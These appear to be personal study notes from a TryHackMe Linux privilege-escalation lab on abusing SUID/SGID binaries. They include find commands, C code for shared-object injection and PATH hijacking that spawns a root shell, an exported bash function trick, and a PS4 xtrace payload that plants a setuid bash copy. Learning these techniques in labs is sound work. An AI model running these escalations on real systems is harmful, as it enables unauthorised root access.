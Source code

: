 
The file is run with the permissions of it's user/group

SUID = Set User ID
SGID = Set Group ID

### Find them

	Find SUID binaries
		`find / -perm -u=s -type f 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f 2>/dev/null`
	Both - test this one more
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` shorter
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} + 2> /dev/null` columns

find suids, from thm room - test 
`find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null`

Look in https://gtfobins.github.io/ and google

### Shared Object Injection

https://tryhackme.com/r/room/linuxprivesc Task 12
If we have suid root perms on a file that req a library that we can "modify", path "fix"

find by:
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

### Environment Variables

https://tryhackme.com/r/room/linuxprivesc Task 13

we run the executable we have suid/sgid on to see what it does
we run strings on it to see if it calls/runs something - looking for paths

we can use that the executable is inheriting the user's PATH environment variable and not using a full path

replace called executable with our own

```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -o executable-name our-code.c`

run the suid/sgid binary after setting the path to the place where our file is (current dir in example)

`PATH=.:$PATH /usr/local/bin/the-suid-sgid-binary`

### Abusing Shell Features (#1)

If bash is older than 4.2-048, functions can be made with names that are the exact same as actual paths:

```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
export -f makes the function available to following commands and executables

run the SUID/SGID executable calling the path we replaced

### Abusing Shell Features (#2)

In bash older than 4.4 we can use the debug mode, replacing the default "+ " at the start of the debug lines with our own "text"

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/mybash; chmod +xs /tmp/mybash)' /usr/local/bin/the-suid-sgid-binary`
	`env -i` clears the environment before adding the new vars
	`PS4` stans for "Prompt String 4"




---


thm:

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using **"chmod"** as **755**, then it will be: rwxr-xr-x.

  
But when special permission is given to each user it becomes SUID or SGID. When extra bit **“4”** is set to user(Owner) it becomes **SUID** (Set user ID) and when bit **“2”** is set to group it becomes **SGID** (Set Group ID).  

Therefore, the permissions to look for when looking for SUID is:

SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx  

**Finding SUID Binaries**  

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: **"find / -perm -u=s -type f 2>/dev/null"** to search the file system for SUID/GUID files. Let's break down this command.

**find** - Initiates the "find" command  

**/** - Searches the whole file system  

**-perm** - searches for files with specific permissions  

**-u=s** - Any of the permission bits _mode_ are set for the file. Symbolic modes are accepted in this form

**-type f** - Only search for files  

**2>/dev/null** - Suppresses errors














### normal SUID

/bin/su
/usr/bin/sudo

/bin/ping
/bin/mount
/bin/umount
/bin/fusermount

/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp

/usr/lib/openssh/ssh-keysign

/usr/bin/at     # unless it's RTru64 linux, in which case CVE-2002-1614


### normal SGID

/usr/bin/ssh-agent
/usr/bin/chage
/usr/bin/expiry
/usr/bin/mlocate
/usr/bin/wall
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/at
/usr/lib/x86_64-linux-gnu/utempter/utempter
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd

